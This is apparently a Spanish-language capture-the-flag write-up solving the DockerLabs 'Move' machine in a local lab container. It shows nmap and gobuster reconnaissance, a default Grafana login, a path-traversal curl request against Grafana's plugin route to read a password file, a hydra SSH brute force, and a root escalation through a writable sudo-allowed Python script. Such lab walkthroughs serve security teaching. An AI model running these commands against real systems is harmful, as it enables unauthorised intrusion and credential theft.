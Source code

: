 # MOVE - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Move. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./move.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: linux
- Autor: El Pingüino de Mario

## ESQUEMA

![move](https://github.com/user-attachments/assets/c13a6c35-79cf-40c0-86b3-4364485d95c2)

## RECONOCIMIENTO DE RED

### conectividad y SO

Antes de empezar con el escaneo ed puertos, comprobamos que tengamos conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/5f1907b2-25b6-4c1d-8d68-e2aaf43d49ec)

Vemos que recibimos respuesta con TTL 64, por lo que el sistema operativo seguramente sea Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/a0622c0c-535e-405a-8e6a-c50b4e956dda)

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

**3000 - TCP - PPP?**

Ahora hacemos sobre estos tres puertos un escaneo de versiones y también lanzamos scripts de reconocimiento estándar:

```python
nmap -p22,80,3000 -sCV 172.17.0.2 -oN targeted
```

> `-p22,80,3000` hacer el escaneo solo sobre estos tres puertos

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/38911510-1fb2-4f54-9a84-f23727d3cb97)

Vemos que en el puerto 3000 hay un servicio HTTP. Probablemente sea Grafana, ya que el puerto 3000 es su puerto por defecto.

## RECONOCIMIENTO WEB

Primero empezamos con el servicio HTTP del puerto 80. Desde consola hacemos `whatweb http://172.17.0.2`:

![image](https://github.com/user-attachments/assets/bbcf2071-acaa-4a73-ad27-1510fbdb4faf)

No vemos nada interesante. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/4c5bb67c-3657-4f8c-99c1-0565feaf6940)

Vemos la web de Apache2 por defecto de Debian. Probamos a hacer fuzzing con gobuster, usando el directory-list-2.3-medium.txt:

```python
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,php.bak,txt,py,cgi,bin,pl,sh,rb,c,cpp,html,js,bak
```

![image](https://github.com/user-attachments/assets/dedd6bbb-b630-4f51-8a1d-f89ca57760b7)

Vemos un archivo llamado maintenance.html:

![image](https://github.com/user-attachments/assets/ac314719-6497-4488-9e47-18619c11e215)

Pone "acceso en /tmp/pass.txt", pero por ahora no nos sirve de nada ya que no tenemos ningún LFI, Path Traversal o cualquier forma de ver el archivo.

Pasamos al puerto 3000. Hacemos `whatweb http://172.17.0.2:3000`:

![image](https://github.com/user-attachments/assets/cf9c76d8-4b42-4e5f-98a3-01b69188bde0)

Vemos que se nos redirige a http://172.17.0.2:3000/login, y que se usa Grafana. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/869c49fb-8424-449b-ac63-1dd6f498e12b)

Vemos el panel de login de Grafana. Probamos a poner admin:admin, y funciona. Ahora estamos en el panel de administración:

![image](https://github.com/user-attachments/assets/2f37df60-cb37-428e-bab9-daef84e859b9)

Si buscamos en Google "Grafana exploit", vemos esto: https://exploit-notes.hdks.org/exploit/web/grafana-pentesting/. Si nos metemos, vemos que hay una ruta de Grafana en la que hay un Path Traversal. Nos podría servir para ver el archivo /tmp/pass.txt.

```python
curl --path-as-is http://172.17.0.2:3000/public/plugins/alertlist/../../../../../../../../tmp/pass.txt -o pass.txt
```

Ahora hacemos `cat pass.txt`:

![image](https://github.com/user-attachments/assets/3f397bd7-915e-4a0d-81cc-08259b2c9b7d)

Y vemos lo que parece ser una contraseña. Podemos hacer fuerza bruta de usuarios con esta contraseña por SSH:

```python
hydra -L /usr/share/wordlists/rockyou.txt -p t9sH76gpQ82UFeZ3GXZS ssh://172.17.0.2
```

![image](https://github.com/user-attachments/assets/85254cc5-234f-4431-86af-7ec26447a504)

Consigue encontrar un usuario llamado freddy. Ahora para conectarnos hacemos `ssh freddy@172.17.0.2` y de contraseña t9sH76gpQ82UFeZ3GXZS.

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS (ROOT)

Siendo el usuario freddy, hacemos `sudo -l` para ver nuestros privilegios especiales de sudo:

![image](https://github.com/user-attachments/assets/afd2195f-9de7-4cb5-948e-0cd9737be5dc)

Vemos que podemos ejecutar como cualquier usuario, sin usar nuestra contraseña, el script /opt/maintenance.py usando el intérprete /usr/bin/python3. Si hacemos `ls -l /opt/maintenance.py`, vemos que freddy es el propietario del script y que podemos modificarlo. Entonces lo abrimos con nano, importamos la librería os y ejecutamos una bash:

![image](https://github.com/user-attachments/assets/6130e5b0-0163-4d3e-a6f4-5a8a27c92ebc)

Ahora lo guardamos, y hacemos `sudo /usr/bin/python3 /opt/maintenance.py`:

![image](https://github.com/user-attachments/assets/b665df18-c32e-4824-aed4-1473641a0792)

Y ganamos una bash como root en la máquina Move.